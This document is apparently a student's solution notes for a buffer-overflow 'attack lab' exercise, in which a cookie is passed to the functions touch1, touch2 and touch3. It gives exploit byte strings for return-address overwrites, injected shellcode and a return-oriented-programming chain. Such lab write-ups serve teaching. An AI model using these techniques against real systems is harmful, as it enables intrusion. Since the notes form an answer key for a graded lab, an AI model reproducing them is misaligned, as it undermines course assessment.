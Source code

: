 Phase 1
=======

Determine address of touch1()

Determine size allocated for stack

Convert address using hex2raw

Insert address in buffer (pad rest with 00's)

Sample buffer:

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  55 19 40 00 00 00 00 00  /* address of touch1 */

Phase 2
=======

Similar to previous phase, but call a function with an argument

Will call touch2(cookie)

Make a .s file with movl cookie, $edi 

Generate .o file with gcc

	gcc -c file.s

Obtain hex for instruction

	objump -d file.o

Insert instruction 

Sample buffer:

  bf 9a d9 e2 68 c3 00 00  /* instruction: 
				movl cookie, edi
				retq */

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  38 81 67 55 00 00 00 00  /* address of movl cookie, edi */

  81 19 40 00 00 00 00 00  /* address of touch2 */

Phase 3
=======

Call touch3() with cookie's string representation as argument
Similar strategy as in Phase 1 but you have to put the argument
deeper in the stack because if not, other called functions will overwrite
it. To work, the buffer must be large (I did 24 * 8 bytes), and I put the
argument at the end. The trickiest part is making sure that you get the 
right endian form for the string and you know where the address of the 
argument is.

Solution:

48 8d 3c 25 f8 81 67 55  /* lea 0x556781f8, %rdi
			 /* 0x556781f8 is location of cookie string, way down in buffer text to avoid being overwritten by other functions

c3 00 00 00 00 00 00 00  /* retq */

00 00 00 00 00 00 00 00

38 81 67 55 00 00 00 00  /* overwriting ret. address.  This is address to exploit (1st line of buffer)

8f 1a 40 00 00 00 00 00  /* touch3

00 00 00 00 00 00 00 00  

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

36 38 65 32 64 39 39 61  /* cookie string */

Phase 4
=======
Use return oriented programming to call touch2(cookie)
Solution:

dd dd dd dd dd dd dd dd

dd dd dd dd dd dd dd dd

dd dd dd dd dd dd dd dd

5d 1b 40 00 00 00 00 00

9a d9 e2 68 00 00 00 00

35 1b 40 00 00 00 00 00

81 19 40 00 00 00 00 00                         
